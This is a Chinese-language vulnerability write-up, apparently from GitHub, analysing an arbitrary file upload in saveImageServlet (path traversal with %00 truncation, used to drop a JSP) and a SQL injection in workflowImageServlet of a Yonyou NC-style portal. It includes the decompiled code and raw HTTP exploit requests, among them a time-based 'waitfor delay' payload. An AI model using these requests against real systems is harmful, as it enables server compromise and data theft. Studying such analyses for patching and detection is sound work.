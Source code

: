 ## saveImageServlet 任意文件上传漏洞分析

官方更新了一个漏洞，说saveImageServlet接口存在任意文件上传漏洞 ，分析一下

```java
package nc.uap.wfm.action;

import java.io.DataOutputStream;
import java.io.File;
import java.io.FileOutputStream;
import java.io.FilterOutputStream;
import java.io.IOException;
import java.util.UUID;
import javax.servlet.ServletException;
import javax.servlet.ServletInputStream;
import nc.uap.lfw.core.exception.LfwRuntimeException;
import nc.uap.lfw.servletplus.annotation.Action;
import nc.uap.lfw.servletplus.annotation.Servlet;
import nc.uap.wfm.action.WfBaseServlet;
import nc.uap.wfm.logger.WfmLogger;

@Servlet(path="/servlet/saveImageServlet")
public class SaveImageServlet
extends WfBaseServlet {
    private static final long serialVersionUID = -5603687395645617927L;

    @Action(method="POST")
    public void doPost() throws ServletException, IOException {
        this.response.setContentType("application/octet-stream");
        String filename = this.request.getParameter("filename");
        if (filename == null || "".equals(filename)) {
            filename = UUID.randomUUID().toString();
        }
        filename = filename + ".png";
        String savePath = this.request.getRealPath("") + "/processxml/images/" + filename;
        ServletInputStream is = this.request.getInputStream();
        FilterOutputStream dos = null;
        try {
            int size = 0;
            byte[] tmp = new byte[10240];
            File f = new File(savePath);
            dos = new DataOutputStream(new FileOutputStream(f));
            int len = -1;
            while ((len = is.read(tmp)) != -1) {
                ((DataOutputStream)dos).write(tmp, 0, len);
                size += len;
            }
            ((DataOutputStream)dos).flush();
            dos.close();
        }
        catch (IOException e) {
            WfmLogger.error((String)e.getMessage(), (Throwable)e);
            throw new LfwRuntimeException(e.getMessage());
        }
        finally {
            try {
                if (is != null) {
                    is.close();
                }
            }
            catch (Exception e) {
                WfmLogger.error((Throwable)e);
            }
            try {
                if (dos != null) {
                    dos.close();
                }
            }
            catch (Exception e) {
                WfmLogger.error((Throwable)e);
            }
        }
    }
}

```
![image](https://github.com/wy876/JavaCode/assets/139549762/0aad419b-a532-4e59-bd6f-45fa77ca57c4)

从代码上看，上传文件名进行了处理，` filename = filename + ".png";`   将后缀拼接上了.png格式然后将文件上传，因为强制加上了.png

按道理来说是不存在漏洞的

本地我也进行测试了，基本上不可以，上传的文件都被强制加上了png

![image](https://github.com/wy876/JavaCode/assets/139549762/470d6ac4-82b1-41e8-9c70-bbd786f6f757)

想起来之前网上有文章 利用Windows特性加上 `%00 ` 就成功上传了

![image](https://github.com/wy876/JavaCode/assets/139549762/f802bd33-a0c2-4b50-ab5a-a0e93f382bd7)



数据包：

```
POST /portal/pt/servlet/saveImageServlet/doPost?pageId=login&filename=../test.jsp HTTP/1.1
Host: 192.168.63.129:8088
Content-Type: application/octet-stream
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 19

111
```

文件上传路径`http://ip:port/portal/processxml/1.jsp`

## workflowImageServlet 注入漏洞分析
```java
@Servlet(path="/servlet/workflowImageServlet")
public class WorkflowImageServlet
extends WfBaseServlet {
    @Action
    public void doPost() {
        this.response.setHeader("Pragma", "No-cache");
        this.response.setHeader("Cache-Control", "no-cache");
        this.response.setDateHeader("Expires", 0L);
        String wfpk = this.request.getParameter("wfpk");
        String proInsPk = this.request.getParameter("proInsPk");
        DrawBoard drawboard = new DrawBoard();
        BufferedImage image = drawboard.getWorkflowImage(wfpk, proInsPk);
        try {
            ServletOutputStream sos = this.response.getOutputStream();
            ImageIO.write((RenderedImage)image, "JPEG", (OutputStream)this.response.getOutputStream());
            sos.flush();
            sos.close();
        }
        catch (IOException e) {
            WfmLogger.error((String)e.getMessage(), (Throwable)e);
            throw new LfwRuntimeException(NCLangRes4VoTransl.getNCLangRes().getStrByID("wfm", "WorkflowImageServlet-000001"));
        }
    }
}
```

![image](https://github.com/wy876/JavaCode/assets/139549762/143e5c2d-2148-4a46-a407-5bfe7c03519b)

在35行代码中`getWorkflowImage `接受了`wfpk`参数，跟踪进去

```java
    public BufferedImage getWorkflowImage(String wfpk, String proInsPk) {
        this.parseProDef(wfpk);
        ProcessDiagram di = this.proDef.getProcessDiagram();
        this.convertObject(di);
        if (proInsPk != null && !"".equals(proInsPk)) {
            ProInsParse.parseState(this, proInsPk);
        }

        return this.buildWorkflowImage(this.proDef);
    }
```
wfpk 参数有接着传入this.parseProDef(wfpk)  

在parseProDe方法中，wfpk 参数进入ProDefsContainer.getByProDefPkAndId(wfpk)

```java
    private void parseProDef(String wfpk) {
        if (wfpk != null && !"".equals(wfpk)) {
            ProDef proDef = ProDefsContainer.getByProDefPkAndId(wfpk);
            if (proDef == null) {
                throw new LfwRuntimeException(NCLangRes4VoTransl.getNCLangRes().getStrByID("wfm", "DrawBoard-000004"));
            } else {
                this.proDef = proDef;
                ProcessDiagram di = proDef.getProcessDiagram();
                this.setWidth(Integer.parseInt(di.getWidth()));
                this.setHeight(Integer.parseInt(di.getHeight()));
            }
        }
    }
```

进入 getByProDefPkAndId 方法，发现将参数`wfpk` 传到`getProDefByPkAndId`方法中

```
    public static ProDef getByProDefPkAndId(String proDefPk) {
        return getProDefByPkAndId(proDefPk);
    }
```

`getProDefByPkAndId`  在该方法中，把参数带入到` getProDefVOByProDefPk` 查询

```java
    private static ProDef getProDefByPkAndId(String proDefPk) {
        getInstance();
        ProDef proDef = ProDefsGlobalCache.getInstance().getProDefByPk(proDefPk);
        if (proDef == null) {
            WfmProdefVO vo = null;

            try {
                vo = ((IWfmProDefQry)NCLocator.getInstance().lookup(IWfmProDefQry.class)).getProDefVOByProDefPk(proDefPk);
            } catch (WfmServiceException var4) {
                WfmLogger.error(var4.getMessage(), var4);
                throw new LfwRuntimeException(var4.getMessage());
            }

            proDef = getProDef(vo);
            ProDefsGlobalCache.getInstance().setProDef(proDefPk, proDef);
        }

        return proDef;
    }
```

跟踪getProDefVOByProDefPk 

![image](https://github.com/wy876/JavaCode/assets/139549762/8d9f4836-f40c-47b1-8727-761a74e7c255)


发现该方法是IWfmProDefQry类的接口

直接搜索看看那个文件引用了该接口类 IWfmProDefQry

![image](https://github.com/wy876/JavaCode/assets/139549762/0427a3b8-233c-4e31-bf51-d69c155897ed)

![image](https://github.com/wy876/JavaCode/assets/139549762/9964843a-a60a-4965-b129-1785a1a09c91)

从WfmProDefQry类中找到getProDefVOByProDefPk方法

![image](https://github.com/wy876/JavaCode/assets/139549762/213e2b50-eced-4f55-b8ee-aeba067811dc)


直接字符串拼接造成sql注入

```java
    public WfmProdefVO getProDefVOByProDefPk(String proDefPk) throws WfmServiceException {
        PtBaseDAO dao = new PtBaseDAO();
        SuperVO[] superVos = null;
        try {
            superVos = dao.queryByCondition(WfmProdefVO.class, "pk_prodef='" + proDefPk + "'");
        }
        catch (DAOException e) {
            WfmLogger.error((String)e.getMessage(), (Throwable)e);
            throw new LfwRuntimeException(e.getMessage());
        }
        if (superVos == null || superVos.length == 0) {
            return null;
        }
        return (WfmProdefVO)superVos[0];
    }
```

数据包：
```
GET /portal/pt/servlet/workflowImageServlet/doPost?pageId=login&wfpk=1&proInsPk=1'waitfor+delay+'0:0:6'-- HTTP/1.1
Host: 192.168.63.129:8088
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 19
```
![image](https://github.com/wy876/JavaCode/assets/139549762/447d58f0-4332-4a41-b2d6-80f061b03f9b)



